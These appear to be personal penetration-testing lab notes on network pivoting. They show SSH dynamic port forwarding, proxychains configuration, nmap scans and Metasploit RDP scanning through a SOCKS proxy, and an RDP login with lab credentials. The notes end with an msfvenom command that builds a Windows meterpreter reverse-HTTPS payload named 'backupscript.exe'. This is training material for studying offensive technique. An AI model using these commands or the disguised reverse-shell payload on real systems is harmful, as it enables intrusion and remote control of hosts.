 #### Enabling Dynamic Port Forwarding with SSH
```Shell
ssh -D 9050 ubuntu@10.129.202.64
```

#### Checking /etc/proxychains.conf
```Shell
tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

#### Using Nmap with Proxychains
```Shell
proxychains nmap -v -sn 172.16.5.1-200
```

#### Enumerating the Windows Target through Proxychains
```Shell
proxychains nmap -v -Pn -sT 172.16.5.19
```

### Using Metasploit with Proxychains

#### Open Metasploit using proxychains
```Shell
proxychains msfconsole
```

#### MSF - Using rdp_scanner Module
```Shell
search rdp_scanner
```

```Shell
use auxiliary/scanner/rdp/rdp_scanner
```

#### Using xfreerdp with Proxychains
```Shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


## Remote/Reverse Port Forwarding with SSH

![[Pasted image 20230309120552.png]]

#### Creating a Windows Payload with msfvenom
```Shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
